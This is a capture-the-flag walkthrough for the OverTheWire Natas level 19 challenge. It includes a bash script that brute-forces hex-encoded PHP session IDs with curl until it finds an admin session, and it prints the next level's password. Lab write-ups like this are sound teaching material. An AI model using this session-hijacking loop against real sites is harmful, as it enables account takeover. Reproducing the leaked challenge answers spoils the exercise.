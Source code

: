 So we have a random number between 1 and 640 again, only with -admin added.  
Lets first just try admin \(61646d696e\) if that doenst work, lets brute force it.

nope

```bash
SessionCookie="PHPSESSID=61646d696e"
curl_output=$(curl -s $'http://natas19.natas.labs.overthewire.org/' -H 'Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==' --cookie "$SessionCookie" --data 'username=admin&password=password')

echo $curl_output 
 </html> logged in as a regular user. Login as an admin to retrieve credentials for natas20.</div>al...</head>thewire.org/js/wechall.js"></script>
```

Script

```bash
MaxCookieID=640
CurrentID=0
while [ $CurrentID -ne $MaxCookieID ]
do
    CurrentID=$(( $CurrentID + 1 ))
    CurrentIDHEX=$(echo -n "$CurrentID-admin" | xxd -p)
    SessionCookie="PHPSESSID=$CurrentIDHEX"
    curl_output=$(curl -s $'http://natas19.natas.labs.overthewire.org/' -H 'Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==' --cookie "$SessionCookie" --data 'username=admin&password=password')
    if echo $curl_output | grep -q "regular user"; then
        echo "[-] $CurrentID out of $MaxCookieID is not a admin session."
    else
        echo "[+] $CurrentID out of $MaxCookieID is a admin session."
        echo "$(echo $curl_output | grep Password)"
        break
    fi
done
```

Output

```text
[-] 1 out of 640 is not a admin session.
[-] 2 out of 640 is not a admin session.
[-] 3 out of 640 is not a admin session.
[-] 4 out of 640 is not a admin session.
...
[-] 278 out of 640 is not a admin session.
[-] 279 out of 640 is not a admin session.
[-] 280 out of 640 is not a admin session.
[+] 281 out of 640 is a admin session.
</html> an admin. The credentials for the next level are:<br><pre>Username: natas20 Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre></div>script>
```
